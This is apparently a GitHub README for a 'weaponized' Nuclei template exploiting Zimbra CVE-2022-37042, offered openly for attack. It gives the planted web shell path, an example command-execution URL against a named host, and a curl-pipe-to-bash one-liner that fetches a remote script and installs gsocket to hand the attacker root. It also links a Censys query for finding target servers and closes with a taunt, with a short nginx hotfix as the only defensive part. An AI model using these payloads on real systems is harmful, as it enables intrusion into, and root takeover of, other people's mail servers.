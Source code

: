 # CVE-2022-37042
<img width="918" alt="image" src="https://user-images.githubusercontent.com/1212294/186645204-ba8e7f0d-fbf0-4392-aab0-7924e48dcf77.png">

# Zimbra CVE-2022-37042 Nuclei weaponized template

shell path: `/public/formatter.jsp`

Nuclei itself: https://github.com/projectdiscovery/nuclei

shell have hidden input with 0 opacity, so just hover mouse over it, type command, then press \[Enter\] key:

<img width="838" alt="image" src="https://user-images.githubusercontent.com/1212294/187246401-ce867e01-de9f-4344-bc98-fb67e635632a.png">

example shell url:
```
https://ms1.fission.com:8443/public/formatter.jsp?cmd=id
```

# CVE-2022-37042 hotfix to patch owned servers
issue this command (but only once):
```
cd /opt/zimbra/conf/nginx/templates/; sed -i 's|location ~\* \^/zmerror_|location = /service/extension/backup/mboximport { return 403; }\n    location ~\* \^/zmerror_|' nginx.conf.web.http*; /opt/zimbra/bin/zmproxyctl restart;
```
need additional code to servers with not Nginx but Apache. Pull requests are wellcome.

# Zimbra autoroot via zimbslap
```
curl -fskSL raw.githubusercontent.com/aels/zimbra-slapper/main/slapper.sh | bash 2>&1
```
this command will install global-socket (https://www.gsocket.io/deploy/) and pass you the key to connect as root.

# get zimbra ips
https://search.censys.io/search?resource=hosts&sort=RELEVANCE&per_page=100&virtual_hosts=EXCLUDE&q=services.http.response.html_tags%3A+%22%3Ctitle%3EZimbra+Web+Client+Sign+In%22

happy birthday massacre, motherfuckers ;)
